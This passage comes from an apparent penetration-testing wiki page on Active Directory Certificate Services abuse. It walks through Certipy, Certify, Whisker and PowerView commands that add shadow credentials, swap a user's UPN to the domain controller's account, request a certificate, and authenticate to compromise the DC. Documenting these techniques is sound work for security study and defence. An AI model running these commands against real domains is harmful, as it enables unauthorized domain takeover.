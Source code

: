Now, authentication with the obtained certificate will be performed through Schannel. The `-ldap-shell` option can be used to execute some LDAP requests and, for example, realised an [RBCD](../kerberos/delegations/rbcd.md) to fully compromised the domain controller.

```bash
certipy auth -pfx dc.pfx -dc-ip "$DC_IP" -ldap-shell
```

{% hint style="info" %}
By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the [Certify](https://github.com/GhostPack/Certify) (C#) tool can be used.

```batch
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /currentuser
```

Here, **user1** has `GenericWrite` against **user2** and want to compromise the domain controller **DC$@domain.local**.

First, the **user2**'s credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```batch
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of **user2** is changed to **DC$@domain.local** with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)**.**

```batch
Set-DomainObject user2 -Set @{'userPrincipalName'='DC$@domain.local'} -Verbose
```

A certificate permitting client authentication can be requested in a **user2** session.

```batch
Certify.exe request /ca:'domain\ca' /template:"User"
```

The **user2**'s UPN is changed back to something else.

```batch
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authentication with the obtained certificate will be performed through Schannel. It can be used to perform, for example, an [RBCD](../kerberos/delegations/rbcd.md) to fully compromised the domain controller.
{% endtab %}
{% endtabs %}
